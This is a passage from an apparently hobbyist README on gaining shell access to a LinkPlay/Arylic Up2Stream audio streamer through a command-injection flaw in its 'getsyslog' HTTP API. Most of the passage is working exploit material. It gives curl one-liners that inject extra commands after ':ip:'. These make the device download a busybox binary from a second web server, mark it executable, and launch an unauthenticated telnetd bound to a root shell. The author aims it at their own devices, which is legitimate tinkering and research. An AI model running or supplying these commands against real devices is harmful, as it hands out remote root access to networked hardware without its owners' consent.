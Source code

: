# Enable telnetd
To enable telnetd on these devices, a security vulnerability had to be exploited. The first version on my devices was 4.2.8020 from 2020/02/20 (20th of Feb 2020) that still had a vulnerability in their code: internally a "sprintf" function was used to prepare a Linux CLI commands. That function was using an IP address as an input, but the input could be extended with ";" and additional commands to download and install a telnetd.

The command that has this vulnerability is **_"getsyslog"_**, see https://developer.arylic.com/httpapi/#get-system-log and https://labs.withsecure.com/advisories/linkplay-firmware-wanlan-remote-code-execution. The command has an option to add an IP address from a slave device, e.g. **_"getsyslog:ip:10.1.1.90"_**, so a CLI command is executed on the device to retrieve the system log from the slave device that includes the IP address. Instead of just having an IP address as a parameter, that CLI command can also include a ";" and a second CLI command. You do not even have to provide an IP address, but can append the ";" and second command directly after the ":ip:". 

The following code snippets are using the IP address 10.1.1.58 for my Arylic Up2Stream device and 10.1.1.22 for a web server running on my local MacMini. 
```
curl "http://10.1.1.58/httpapi.asp?command=getsyslog:ip:10.1.1.22/index.html;mkdir+/tmp/bin;wget+-O+/tmp/bin/busybox+-T+5+http://10.1.1.22/a31/bin/busybox+-q;chmod+777+/tmp/bin/busybox;/tmp/bin/busybox+telnetd+-l/bin/ash;"
```
The command above is executing the following commands on the device in addition to the "getsyslog" request:
```
mkdir /tmp/bin
wget -O /tmp/bin/busybox -T 5 http://10.1.1.22/a31/bin/busybox -q;
chmod 777 /tmp/bin/busybox;
/tmp/bin/busybox telnetd -l/bin/ash;
```
> **Note:**
> Don't forget to add a ";" at the end inside the quotes. Replace all spaces with "+". 

The tool **_"busybox"_** is like a swiss army knife and combines a lot of CLI commands in a single binary file. That file was stripped down already in my version and does not include a telnetd anymore. Therefore you have to get a full version from somewhere. 

A version of busybox is provided here, but there is an OpenWRT archive where you can get precompiled binaries for almost all utilities you may need. See section **_Hardware and Firmware_** for more information. On my web server (10.1.1.22) I've created subdirectory ***/a31/bin*** and have copied the busybox binary to that directory

You may also redirect output and error output for telnetd: 
```
curl "http://10.1.1.58/httpapi.asp?command=getsyslog:ip:10.1.1.22/index.html;mkdir+/tmp/bin;wget+-O+/tmp/bin/busybox+-T+5+http://10.1.1.22/a31/bin/busybox+-q;chmod+777+/tmp/bin/busybox;/tmp/bin/busybox+telnetd+-l/bin/ash+>+/tmp/web/cmd.out+2>+/tmp/web/cmd.err;"
```


